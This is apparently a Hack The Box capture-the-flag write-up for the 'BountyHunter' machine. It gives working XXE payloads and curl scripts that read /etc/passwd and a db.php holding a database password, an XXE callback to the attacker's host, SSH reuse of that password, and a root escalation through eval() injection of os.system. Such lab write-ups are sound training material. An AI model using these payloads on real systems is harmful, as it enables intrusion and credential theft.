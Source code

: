 > Author: **[ejedev][author-profile]**

## Discovery

Nmap and Gobuster return:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
```

```bash
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/db.php               (Status: 200) [Size: 0]                                    
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/index.php            (Status: 200) [Size: 25169]                                   
/portal.php           (Status: 200) [Size: 125]                                     
/server-status        (Status: 403) [Size: 277] 
```

There's a README in the resources:

```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
```

A business website is served on port 80. Its portal redirects to `log_submit.php`,
a tool for employees to submit bugs.

Upon submission, Burpsuite captures a POST request to `tracker_diRbPr00f314.php`,
with base64 encoded xml data:

```javascript
// "<?xml  version=\"1.0\" encoding=\"ISO-8859-1\"?>\n\t\t<bugreport>\n\t\t<title>heyhey</title>\n\t\t<cwe>inject some clever code here</cwe>\n\t\t<cvss>-1</cvss>\n\t\t<reward>');show tables;#</reward>\n\t\t</bugreport>"
atob("PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5oZXloZXk8L3RpdGxlPgoJCTxjd2U+aW5qZWN0IHNvbWUgY2xldmVyIGNvZGUgaGVyZTwvY3dlPgoJCTxjdnNzPi0xPC9jdnNzPgoJCTxyZXdhcmQ+Jyk7c2hvdyB0YWJsZXM7IzwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg==");
```

This might be exploitable!

## Checking for XXE

Let's export this previous request as a curl command (in Burpsuite) to tweak it:

```bash
curl -i -s -k -X $'POST' --compressed \
    -H $'Host: 10.10.11.100' \
    -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
    -H $'Accept-Encoding: gzip, deflate' \
    --data-urlencode $'data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5oZXloZXk8L3RpdGxlPgoJCTxjd2U+aW5qZWN0IHNvbWUgY2xldmVyIGNvZGUgaGVyZTwvY3dlPgoJCTxjdnNzPi0xPC9jdnNzPgoJCTxyZXdhcmQ+Jyk7c2hvdyB0YWJsZXM7IzwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg==' \
    $'http://10.10.11.100/tracker_diRbPr00f314.php'
```

> Don't forget the --compressed flag, otherwise the response body will not appear.

> Also, switching the `--data-binary` option to `--data-urlencode` allows to paste
> base64 data directly, and not worry about special characters like "=".

Then, test whether external entities are enabled with:

```bash
echo $'<?xml  version=\"1.0\" encoding=\"ISO-8859-1\"?>\n\t\t<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://10.10.16.30:9876"> %xxe; ]>\n\t\t<bugreport>\n\t\t<title>heyhey</title>\n\t\t<cwe>inject some clever code here</cwe>\n\t\t<cvss>-1</cvss>\n\t\t<reward>a XXE?</reward>\n\t\t</bugreport>' | base64 -w 0
```

Netcat catches a request on port 9876: looks like we have a XXE on our hands!

## Scripting the attack

Let's put together a script to automate the testing:

```bash
HEADER=$'<?xml  version=\"1.0\" encoding=\"ISO-8859-1\"?>'
REPORT=$'<bugreport><title>user listing</title><cwe>xxe</cwe><cvss>pwned</cvss><reward>&flag;</reward></bugreport>'
PAYLOAD=$'<!DOCTYPE foo [<!ENTITY flag SYSTEM \"/etc/passwd\"> ]>'
DATA=$(echo "${HEADER}${PAYLOAD}${REPORT}" | base64 -w 0)

curl -i -s -k -X $'POST' --compressed \
    -H $'Host: 10.10.11.100' \
    -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
    -H $'Accept-Encoding: gzip, deflate' \
    --data-urlencode "data=${DATA}" \
    $'http://10.10.11.100/tracker_diRbPr00f314.php'
```

From the response, the target has two users: root and development.

## Breaking-in

The XXE can be used to download files; the `db.php` seen in recon is the most promising:

```bash
PAYLOAD=$'<!DOCTYPE foo [<!ENTITY flag SYSTEM \"php://filter/convert.base64-encode/resource=db.php\"> ]>'
```

Decoding it gives us credentials:

```php
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```

According to the previous port scanning, there's no mysql server exposed:

```bash
# ERROR 2002 (HY000): Can't connect to server on '10.10.11.100' (115)
mysql -D'bounty' -u'admin' -p'm19RoAU0hP41A1sTsq6K' -h 10.10.11.100 -e'show tables;'
```

But it works as ssh credentials for the user "development"!

## Escalation

The user "development" can elevate his privileges thanks to sudo and run
`/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` as root. 

The script parses a markdown ticket and evaluates its "code" section:

```python
validationNumber = eval(x.replace("**", ""))
```

Following the parsing rules, we create a ticket to require the root flag:

```markdown
# Skytrain Inc
## Ticket to root the box
__Ticket Code:__
**102+__import__('os').system('cat /root/root.txt')**
## Issued: 2021/08/19
# End Ticket
```

[author-profile]: https://app.hackthebox.eu/users/280547

